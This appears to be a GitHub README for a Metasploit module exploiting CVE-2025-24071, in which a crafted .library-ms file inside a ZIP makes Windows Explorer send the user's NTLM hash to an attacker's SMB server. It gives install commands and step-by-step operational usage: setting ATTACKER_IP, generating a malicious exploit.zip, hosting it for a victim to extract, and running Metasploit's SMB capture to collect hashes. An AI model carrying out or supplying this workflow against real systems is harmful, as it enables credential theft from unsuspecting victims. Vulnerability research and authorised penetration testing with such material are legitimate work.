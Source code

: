 ## CVE-2025-24071: NTLM Hash Leak via .library-ms File (Metasploit Module)

This repository contains a **Metasploit module** to exploit CVE-2025-24071, a vulnerability in Windows Explorer that leaks NTLM hashes when a malicious `.library-ms` file is extracted from a ZIP archive.

Developed by: **FOLKS-IWD**

---

## **Overview**
The vulnerability occurs when a user extracts a ZIP archive containing a specially crafted `.library-ms` file. Windows Explorer automatically initiates an SMB authentication request to a remote server specified in the file, leaking the user's NTLM hash without any user interaction.

This Metasploit module:
1. Generates a malicious `.library-ms` file.
2. Packs it into a ZIP archive.
3. Integrates with Metasploit's SMB capture functionality to collect NTLM hashes.
![image](https://github.com/user-attachments/assets/da2a71a3-7fc9-4687-bdcf-777de4c67d9a)


---

## **Installation**
1. Clone the repository:
   ```bash
   git clone https://github.com/FOLKS-IWD/CVE-2025-24071-msfvenom.git
   cd CVE-2025-24071-msfvenom
   ```
2. Copy the module to your Metasploit modules directory:
   ```bash
   cp ntlm_hash_leak.rb ~/.msf4/modules/auxiliary/server/
   ```
## **Usage**
1. Load the module:
   ```bash
   use auxiliary/server/ntlm_hash_leak
   ```
2. Set the required options:
   ```bash
   set ATTACKER_IP 192.168.1.162  # Replace with your IP address
   set FILENAME exploit.zip       # Name of the malicious ZIP file
   set LIBRARY_NAME malicious.library-ms  # Name of the .library-ms file
   set SHARE_NAME shared          # SMB share name
   ```
3. Run the module :
 ```bash
   run
   ```
4. The module will generate a malicious ZIP file (exploit.zip). Host this file for the victim to download and extract.
5. Use Metasploit's SMB capture module to collect NTLM hashes:
   ```bash
   use auxiliary/server/capture/smb
   set SRVHOST 192.168.1.162  # Same as ATTACKER_IP
   run
   ```
